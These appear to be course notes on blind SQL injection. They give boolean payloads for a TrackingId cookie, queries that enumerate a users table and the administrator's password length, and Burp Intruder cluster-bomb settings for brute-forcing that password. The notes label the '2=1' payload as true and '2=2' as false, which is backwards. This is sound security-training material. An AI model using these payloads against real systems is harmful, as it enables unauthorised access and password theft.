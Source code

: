 # Section 14: Blind SQL Injections

## Discovering Blind SQL Injections

- Classic SQL injection
- Attackers can exploit the web application to run SQL queries
- The result is <b>NOT returned to the web application</b>

Example: check in Burp that a GET product request has a request cookie with TrackingId

Run and true statement: `' anD 2=1--`

Run and false statement: `' anD 2=2--`

check the displayed result in the page, for this case the false statement does not display a "Welcome back!" text


Normal Request --> Original Page

True Statement --> Original Page

False Statement --> <b>Different / Broken Page</b>

---

## Enumerating Table & Column Names

> If we get the "Welcome back!" text the statement is true, otherwise is false


Do we have a table that is called Users

 `' anD (SELECT 'a' FROM users LIMIT 1)='a'--`

```
anD 'a' = 'a'---
```


Do we have a column called Y in the Users table?

 ```
 ' anD (SELECT 'a' FROM users WHERE username='administrator')='a'--
```


Do we have a value in table X.

```
 ' anD (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a'--
```

```
' anD (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a'--
```

---

## Recovering Administrator Password With Burp Intruder

If the first character of the password is 'a'

 ```
 ' anD (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§'--
```
 
If the second character of the password is a
```
' anD (SELECT  SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§'--
```

Can use a script or the Burp Intruder (can replace sign params with a payload)

Right click on request -> Send to Intruder

Intruder -> Clear Signs  -> add Injection after tracking Id with two signs -> go to Intruder Payload that will substitute the s signs -> 
Payload type: Brute forcer -> Character set: alphanumeric -> Min length: 1 -> Max length: 2

---

## Using the Cluster-Bomb Attack to Recover Passwords

Cluster-Bomb: Intruder functionality to manipulate two values at the same time

Automatically increase to guess 2nd, 3rd, 4th.. letter

Character and value replacement:

```
' anD (SELECT  SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
```

**Attack type**: Cluster-bomb

**Payload Sets**

First set: Numbers, From: 0, To: 20, Step: 1

Second set: Brute forcer, Min length: 1, Max length: 1

Order by response length, success mean the character guess, Payload 2,  was correct at the place of Payload 1

---
